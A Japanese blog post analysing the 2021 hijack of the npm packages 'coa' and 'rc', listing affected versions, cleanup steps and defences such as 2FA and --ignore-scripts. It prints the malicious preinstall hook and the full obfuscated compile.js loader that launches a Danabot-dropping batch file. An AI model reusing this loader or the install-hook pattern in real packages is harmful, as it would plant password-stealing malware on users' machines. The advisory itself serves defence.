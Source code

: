 ```yaml
---
id: 4h4ejctfMpzeQYcn4uhrR0
title: " npm の人気パッケージ 「coa」と「rc」にマルウェアが埋め込まれた"
slug: "npm-coa-rc-embded-malware"
about: "2021/11/5 npm パッケージ 「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。"
createdAt: "2021-11-07T00:00+09:00"
updatedAt: "2021-11-07T00:00+09:00"
tags: ["", "セキュリティ"]
thumbnail:
  url: "https://images.ctfassets.net/in6v9lxmm5c8/5aBvLSXirDOkziSXDURioE/e547110fe258417a05556347c142e813/npm.png"
  title: "npm"
audio: null
selfAssessment: null
published: true
---
```

2021/11/5 npm パッケージ「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。

- [coa](https://github.com/veged/coa/issues/99) はコマンドライン引数のパーサーで、週に 880 万ダウンロードされています。有名なライブラリですと [React](https://github.com/facebook/react/blob/main/yarn.lock#L4748) がや [@vue/cli-service](https://github.com/vuejs/vue-cli/blob/dev/yarn.lock#L7286) がこのパッケージに依存しています。
- [rc](https://github.com/veged/coa/issues/99) は設定のローダーで、週に 130 万ダウンロードされています。

## 影響を受けたバージョン

### coa

- 2.0.3
- 2.0.4
- 2.1.1
- 2.1.3
- 3.0.1
- 3.1.3

### rc

- 1.2.9
- 1.3.9
- 2.3.9

## なにをすべきですか？

npm を利用しているレポジトリにおいて「coa」または「rc」の上記に該当するバージョンが存在するか `package.lock.json` または `yarn.lock` ファイルを確認します。

もしこれらのバージョンが含まれていた場合あなたのマシンに以下のファイルが含まれていないかどうか確認し、削除する必要があります。またあなたのパスワードの情報はすでに盗まれている可能性があるので速やかに変更をすべきです。

- compile.js
- compile.bat
- sdd.dll

## マルウェアの内容

埋め込まれたマルウェアは「coa」と「rc」どちらも同じ内容で、どちらも `preinstall` を利用した攻撃となっています。

`preinstall` は `npm-script` に定義できる [Life Cycle Scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#life-cycle-scripts) と呼ばれる特殊なスクリプトであり `npm install` が実行される直前に実行されます。

```js
"preinstall": "start /B node compile.js & node compile.js"
```

影響を受けたバージョンには `compile.js` と `compile.bat` という名前のファイルが含まれており `npm install` を実行することで `compile.js` が実行されてしまいます。

- compile.js

```js
const _0x29286e=_0x3b9e;(function(_0x595213,_0x1c7f12){const _0x524030=_0x3b9e,_0x10bbc4=_0x595213();while(!![]){try{const _0x5ab451=parseInt(_0x524030(0xef))/0x1*(-parseInt(_0x524030(0xfa))/0x2)+parseInt(_0x524030(0xf7))/0x3+-parseInt(_0x524030(0xf6))/0x4*(parseInt(_0x524030(0xf5))/0x5)+-parseInt(_0x524030(0xf2))/0x6*(-parseInt(_0x524030(0xed))/0x7)+-parseInt(_0x524030(0xf8))/0x8*(parseInt(_0x524030(0xe9))/0x9)+parseInt(_0x524030(0xeb))/0xa+parseInt(_0x524030(0xf3))/0xb*(parseInt(_0x524030(0xf4))/0xc);if(_0x5ab451===_0x1c7f12)break;else _0x10bbc4['push'](_0x10bbc4['shift']());}catch(_0x3b1efb){_0x10bbc4['push'](_0x10bbc4['shift']());}}}(_0x4f67,0x3d733));const {exec}=require('child_process');function _0x4f67(){const _0x5d7817=['28bejTPQ','1355673ZDaxId','779896MgsJdu','child_process','26358GzOkXk','MacOS','platform','cmd.exe','win64','27EVEPMY','win32','768760SJubeg','Linux','111587KPhwpG','compile.bat','11xGbwXc','linux','darwin','36HiOlse','11PTXHjR','3696096qOooYF','173780mPHnxy'];_0x4f67=function(){return _0x5d7817;};return _0x4f67();}var opsys=process[_0x29286e(0xfc)];function _0x3b9e(_0x21f5ee,_0x411966){const _0x4f6708=_0x4f67();return _0x3b9e=function(_0x3b9ecb,_0x3ac81f){_0x3b9ecb=_0x3b9ecb-0xe9;let _0x5a6794=_0x4f6708[_0x3b9ecb];return _0x5a6794;},_0x3b9e(_0x21f5ee,_0x411966);}if(opsys==_0x29286e(0xf1))opsys=_0x29286e(0xfb);else{if(opsys==_0x29286e(0xea)||opsys==_0x29286e(0xfe)){opsys='Windows';const {spawn}=require(_0x29286e(0xf9)),bat=spawn(_0x29286e(0xfd),['/c',_0x29286e(0xee)]);}else opsys==_0x29286e(0xf0)&&(opsys=_0x29286e(0xec));}
```

`compile.js` が実行されることで `compile.bat` というバッチファイルが実行されます。このバッチが実行されると `sdd.dll` がインストールされ起動されます。このマルウェアは、Windows 用のパスワード盗用トロイの木馬である Danabot である可能性が高いです。

Danabot が読み込まれると、以下のようなさまざまな悪意ある活動を行います。

- Chrome、Firefox、Opera、Internet Explorer、Safari などのさまざまなウェブブラウザからパスワードを盗む。
- VNC、FTP クライアント、メールアカウントなど、さまざまなアプリケーションからパスワードを盗む。
保存されているクレジットカードを盗む。
- アクティブな画面のスクリーンショットを撮る。
- キーストロークを記録する。

## npm のセキュリティに対する対策

### 2FA の有効化

マルウェアが埋め込まれた現在として npm のパッケージを公開する権限がある人のアカウントが乗っ取られたことが要因として上げられています。npm としては同様の攻撃を防ぐため**2FAを有効にする**ことが強く推奨されています。

https://twitter.com/npmjs/status/1456310653681999876

### pre-install を無効化する

マルウェアの実行の多くは `pre-install` スクリプトによって行われています。パッケージをインストールする際に `--ignore-scripts` オプションを付与することでスクリプトの実行をオプトアウトできます。

```
npm install --ignore-scripts
yarn add --ignore-scripts
```

## 参考

- https://therecord.media/malware-found-in-coa-and-rc-two-npm-packages-with-23m-weekly-downloads/
- https://www.bleepingcomputer.com/news/security/popular-coa-npm-library-hijacked-to-steal-user-passwords/
- https://github.com/advisories/GHSA-g2q5-5433-rhrf
- https://github.com/advisories/GHSA-73qr-pfmq-6rp8
